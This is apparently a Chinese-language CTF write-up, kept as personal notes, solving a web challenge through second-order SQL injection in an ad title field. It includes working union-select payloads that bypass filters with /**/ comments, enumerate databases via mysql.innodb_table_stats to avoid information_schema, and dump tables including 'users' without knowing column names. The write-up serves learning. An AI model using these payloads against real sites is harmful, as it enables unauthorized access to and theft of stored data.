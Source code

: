![[Pasted image 20221125153820.png]]

---
首页长这样

![[Pasted image 20221125153836.png]]

---
`POST`的形式

![[Pasted image 20221125154449.png]]

---
尝试使用`admin`注册时提示该用户已被注册

![[Pasted image 20221125155037.png]]

使用用户名`aaa`和密码`123`注册并登录

![[Pasted image 20221125155328.png]]

![[Pasted image 20221125155358.png]]

![[Pasted image 20221125155509.png]]

`POST`内容

![[Pasted image 20221125155832.png]]

![[Pasted image 20221125155519.png]]

广告详情页是`/detail.php?id=xxx`的形式

![[Pasted image 20221125161128.png]]

尝试对`id`进行`sql`注入

无果QAQ

![[Pasted image 20221125161453.png]]

尝试`SSTI`

![[Pasted image 20221125161510.png]]

![[Pasted image 20221125161520.png]]

貌似对标题有效，但大括号还在，估计和`SSTI`无关，更偏向于`+`直接被过滤了，回到`sql`注入试试

当标题为`and`、`or`或`#`时会提示`标题含有敏感词汇`

![[Pasted image 20221125162659.png]]

对于payload `1'`，访问`detail.php`时发现`mysql`报错

![[Pasted image 20221125163216.png]]

确定是`sql`注入

为什么会用广告名进行`sql`查询呢QwQ

猜测后端是直接维护一张广告名和广告`id`的映射表，然后神奇地用广告名来查询广告内容了（下次记得还是用`id`查好，这样就能直接在url上注入了hiahiahia）

用`union select`检查注入点
```sql
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
麻了22个字段出题人这是要累死人（恼

![[Pasted image 20221125164232.png]]

注入点在2和3

什么，广告名都能注入的嘛，后端你查询咋写的QAQ，用来查询的字符串合着真的只有查询作用呗

---
那就拿广告名来注入叭

查看当前数据库
```sql
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```
![[Pasted image 20221125164609.png]]

查看所有数据库

这里改成`where '1'='1`来补全后面的引号了
```sql
1'/**/union/**/select/**/1,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/information_schema.schemata/**/where/**/'1'='1
```

![[Pasted image 20221125164918.png]]

大意了，`information`的`or`被ban了QAQ

好的接下来是学习时间（**悲**

---
![[Pasted image 20221125170222.png]]

```sql
1'/**/union/**/select/**/1,group_concat(database_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```

---
查看表格

![[Pasted image 20221125170634.png]]

```sql
1'/**/union/**/select/**/1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/'1'='1
```
![[Pasted image 20221125170819.png]]

读取FLAG_TABLE内容

这波不知道字段的查询真的惊到我了，`sql`还能这么玩的嘛
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from/**/(select/**/1/**/as/**/a/**/union/**/select/**/*/**/from/**/ctftraining.FLAG_TABLE)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```
![[Pasted image 20221125173613.png]]

被骗了.jpg

读取`users`内容
```sql
1'/**/union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

![[Pasted image 20221125173943.png]]

学到了学到了QwQ

#Web #HTTP #SQL注入 #绕过 #联合注入